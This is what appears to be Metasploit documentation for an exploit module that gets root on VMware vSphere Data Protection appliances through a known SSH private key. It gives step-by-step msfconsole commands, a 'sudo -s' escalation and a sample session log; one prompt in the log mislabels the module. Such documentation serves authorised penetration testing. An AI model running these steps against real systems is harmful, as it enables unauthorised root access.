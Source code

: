 ## Vulnerable Application

  VMware vSphere Data Protection appliances 5.5.x through 6.1.x contain a known ssh private key for the local user admin who is a sudoer without password.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/vmware_vdp_known_privkey`
  3. Do: `set rhost 1.2.3.4`
  4. Do: `exploit`
  5. You should get a shell.
  6. Type: `sudo -s` to become root user

## Scenarios

This is a run against a known vulnerable vSphere Data Protection appliance.  
  
```
msf > use exploit/linux/ssh/vmware_vdp_known_privkey  
msf exploit(vmware_vdp_known_privkey) > set rhost 1.2.3.4  
rhost => 1.2.3.4  
msf exploit(exagrid_known_privkey) > run  
  
[+] Successful login  
[*] Found shell.  
[*] Command shell session 1 opened (1.2.3.5:34147 -> 1.2.3.4:22) at 2017-01-20 20:43:22 +0100  
```
